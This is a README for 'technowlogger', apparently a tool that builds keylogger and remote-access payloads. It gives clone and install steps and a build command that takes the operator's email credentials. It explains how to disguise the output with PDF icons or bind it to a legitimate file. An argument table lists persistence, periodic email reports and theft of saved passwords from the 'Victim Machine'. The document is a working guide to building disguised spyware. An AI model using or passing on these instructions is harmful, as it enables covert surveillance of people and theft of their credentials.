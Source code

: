 ## How To Use in Windows
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/PushpenderIndia/technowlogger.git

# Go into the repository
$ cd technowlogger

# Installing dependencies
$ python -m pip install -r requirements.txt

# Open technowgen.py in Text editor and Configure Line 16 WINDOWS_PYTHON_PYINSTALLER_PATH = "C:/Python37-32/Scripts/pyinstaller.exe" 

# Getting Help Menu
$ python technowgen.py --help

# Making Payload/RAT
$ python technowgen.py -e youremail@gmail.com -p YourEmailPass -w -o output_file_name --icon icon_path

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```

## How to Update

* Run updater.py to Update Autmatically or Download the latest Zip from this GitHub repo
* Note: Git Must be Installed in order to use updater.py

## Note:- Evil File will be saved inside dist/ folder, inside technowlogger/ folder

## Available Arguments 
* Optional Arguments

| Short Hand  | Full Hand | Description |
| ----------  | --------- | ----------- |
| -h          | --help    | show this help message and exit |
| -i INTERVAL | --interval INTERVAL | Time between reports in seconds. default=120|
| -t TIME_PERSISTENT | --persistence TIME_PERSISTENT | Becoming Persistence After __ seconds. default=10 |
|  -w | --windows | Generate a Windows executable. |
|  -l | --linux   | Generate a Linux executable. |
|  -s | --steal-password | Steal Saved Password from Victim Machine [**Supported OS : Windows**] |
| -b file.txt | --bind LEGITIMATE_FILE_PATH.pdf | AutoBinder : Specify Path of Legitimate file. [**Supported OS : Windows**] |
| -d | --debug | Payload Will Run In Foreground with CMD Window, To get Appropriate Execution Error |
#### Note : Either **-w/--windows** or  **-l/--linux** must be specified 
